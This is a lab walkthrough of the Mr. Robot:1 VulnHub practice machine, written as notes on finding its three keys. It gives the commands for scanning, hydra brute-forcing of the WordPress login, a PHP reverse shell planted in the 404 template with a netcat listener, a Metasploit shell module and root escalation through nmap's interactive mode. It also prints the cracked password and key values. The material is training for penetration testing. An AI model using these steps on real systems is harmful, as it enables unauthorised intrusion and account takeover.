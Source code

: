 Project 1.0

Overview

The Mr. Robot vulnerable machine has three keys hidden in different locations. The goal is to find all three. Each key is progressively difficult to find. /n
github.com/besoben/project01 has a .docx file which contains screen shots of every step. Please enjoy.

Operating Systems used:

Kali Linux
•	https://www.kali.org/get-kali/
\n Mr. Robot:1 VulnHub
•	https://www.vulnhub.com/entry/mr-robot-1,151/

Tools/Commands used:

nmap
version 7.93
Nmap is a network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing     the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection

nikto
version 2.1.6
Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other           problems. It performs generic and server type specific checks. It also captures and prints any cookies received

gobuster
Gobuster is a tool used to brute-force:  URIs (directories and files) in web sites,  DNS subdomains (with wildcard support), Virtual Host names on       target web servers, Open Amazon S3 buckets, Open Google Cloud buckets, TFTP servers..

dirbuster
version OWASP DirBuster 1.0-RC1
DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now     of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts     to find these.

wpscan
version 3.8.22
The WPScan CLI tool is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to   test the security of their sites. The WPScan CLI tool uses a database of 38,431 WordPress vulnerabilities.

metasploit
version 6.2.36
The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS   signature development. It is owned by Boston, Massachusetts-based security company Rapid7

burpsuite
version 2022.12.5
Burp Suite is an integrated platform and graphical tool for performing security testing of web applications, it supports the entire testing         process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities.

hydra
version 9.4
Hydra is a pre-installed tool in Kali Linux used to brute-force usernames and passwords to different services such as FTP, ssh, telnet, MS SQL,         etc. Brute force can be used to try different usernames and passwords against a target to identify the correct credentials.

net cat
version 1.10-47
The Netcat ( nc ) command is a command-line utility for reading and writing data between two computer networks The communication happens using           either TCP or UDP. The command differs depending on the system ( netcat , nc , ncat , and others).
	

Walk through:

Footprinting and enumeration:

whoami
	notes user

ip address 
	notes system ip

sudo -i
	super user/ root interactive

nmap -O [ipadress/range]
	scans range of ip addresses and lists operating system 

arping -h [ipaddress/range]
	this pings the arp network to map local network

nikto -h [target-ipaddress]
	vulnerbility scanner, set host [ip]

gobuster dir -u [target-url/ipaddress] -w [/usr/share/wordlist/dirbuster/directory-list.2.3-small.txt]
dictionary attack, against url searching for hidden directories

DirBuster application w report generation
target url, wordlist, don't be recursive (unneeded in this), File extension "php, txt"

Physically explored the website, url input, triggered 404, accessed wp-login, robots.

FIRST FLAG FOUND, [target-ipaddress/robots] > [target0ipaddress/flag-1-of-3.txt] and [target-ipaddress/fsocity.dic]

download [fsocity.dic]

cat head [fsocity.dic]
	to see what the first few lines of text were
wc [fsocity.dic]
	word count, it's huge [that's what she said]
cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  
	sorts all unique into a seperate file
wc [sorted_fsocity.dic]
	word count, significantly lower

wpscan [target-ipaddress]
	find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	-L list file upload
	-p unkown sets the password as uknown 
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered

USERNAME IS ELLIOT
Option 1:
hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'
	-l elliot, lower case to indicate exact user
	-P password file
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	
Option 2:
wpscan -u elliot -P [sorted_fsociet.dic]
	-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan

[wp-username] = elliot 
[wp-pasword] = ER28-0652

Now we can log into wordpress. 

Forward Facing Application Leverage and generate damion shell:
Option #1
Log into wordpress application
Applications>edit>Edit 404 page template
Reverse Shell on the 404 page
	php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
	php reverse shell, changed [attacker-ipaddress]/[port]

nc -lvnp 443
	net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 
WE ARE IN THE TERMINAL 
now in bin/sh$

Option #2
metasploit
	msfconsole
	search wordpress shell
	use 1
	show options
	set username [wp-username]
	set password  [wp-password]
	set rhost [targetip]
	exploit
	ERROR
	advanced options
	set wpcheck false
	exploit
	shell 

gain terminal access
whoami
group id
pwd
ls
cd /home 
ls
cd /robot
ls

SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user
su robot, you get an error stating you need to be in a terminal

Lateral Movement, New Shell, New User Owned:

python -c 'import pty;pty.spawn("/bin/bash")'
spawns a terminal
su robot with the password [abcdefghijklmnopqestuvwxyz]
cd /robots
ls
cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
find / -perm -4000 -type f 2>/dev/null
	finds files that being ran by their owner
nmap --version
research time -- it's vulnerable! 

Root escallation: 

nmap --interactive
nmap !sudo /bin/bash
exit
nmap !sh
cd /root
ls
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
